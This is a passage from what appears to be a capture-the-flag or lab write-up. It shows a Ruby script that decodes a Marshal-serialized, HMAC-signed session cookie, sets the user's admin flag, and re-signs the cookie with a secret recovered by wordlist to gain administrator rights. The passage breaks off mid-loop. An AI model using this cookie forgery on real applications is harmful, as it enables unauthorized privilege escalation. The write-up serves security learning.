 Running this with our wordlist and cookie from the server we get:

![find-secret](/assets/images/posts/rcci/find-secret.png)

Now that we have the secret, we can go ahead and sign our modified cookie and try to
get administrator privileges.

Modified `tamper-cookie.rb` program

```ruby
require 'pp'
require 'uri'
require 'base64'
require 'openssl'
require 'data_mapper'

DataMapper.setup(:default, 'sqlite3::memory')

class User
    attr_accessor :admin
end

def encode_object(obj, secret)

    obj["user"].admin = true

    data = Base64.encode64(Marshal.dump(obj))

    signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)

    # URI encode doesn't encode '=' character
    return URI.encode(data).gsub("=", "%3D")+"--"+signature
end

def decode_cookie(c)
    cookie = c.split("--")

    # Undo URL encode then base64 decode
    decoded = Base64.decode64(URI.decode(cookie[0]))

    begin
        obj = Marshal.load(decoded)
        puts("Decoded Cookie:\n")
        return obj
    rescue ArgumentError => err
        puts "( ERROR ) decode-cookie: " + err.to_s
    end
end

def main

    if ARGV.length != 2
        puts('usage: tamper-cookie <file> <secret>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)

    for cookie in cookies

        obj = decode_cookie(cookie)
        puts("Decoded Cookie:\n")
        pp obj

        new_cookie = encode_object(obj, ARGV[1])
```